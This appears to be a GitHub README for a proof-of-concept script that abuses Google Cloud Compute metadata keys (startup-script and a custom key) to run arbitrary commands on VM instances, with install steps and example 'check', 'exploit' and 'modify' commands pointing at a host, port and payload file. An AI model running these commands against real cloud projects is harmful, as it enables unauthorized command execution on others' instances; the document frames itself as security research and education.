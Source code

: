 # GCP Metadata API Abuse "PoC" (gce-s3r1al.py)
A script to take advantage of a unique design in Google Cloud's Compute API capabilities and implementation of Metadata keys.
**This is for testing and educational purposes only and comes with no warranty.**

## Overview
**This is based on research conducted by the Andrew Johnson at Mitiga - check out the original [blog post here](https://www.mitiga.io/blog/misconfiguration-hidden-dangers-cloud-control-plane)**
To get more information on this capability, the inner workings behind it, and other information, go check out the extensive blog post I wrote about developing this "PoC" [here](https://www.mgior.com/). At some point I will translate a lot of the high-level information from the blog post and include it in this README.

## Usage
To get started, first clone the repository and install the required Python libraries
```
git clone https://github.com/mikegior/gce-s3r1al
cd gce-s3r1al/
pip3 install -r requirements.txt
```

The script has three commands you can use:
- **`check`** - check roles associated with the account you have access to to determine if required roles are present
- **`exploit`** - set the startup-script and s3r1al metadata keys and values to the specified instance
- **`modify`** - modify the s3r1al metadata key's value to an arbitrary command to execute

Prior to using this script, you will need install required Python libraries first. To do this,

Example usage for each command:
```sh
$ python3 gce-s3r1al.py check --authfile creds.json
$ python3 gce-s3r1al.py exploit --host 1.2.3.4 --port 8000 --payloadfile metalisten.sh --authfile creds.json --project serial-poc-1 --zone us-central1-a --instance poc-instance
$ python3 gce-s3r1al.py modify --authfile creds.json --project serial-poc-1 --zone us-central1-a --instance poc-instance
```

The blog post outlines more about each command and the anticipated output.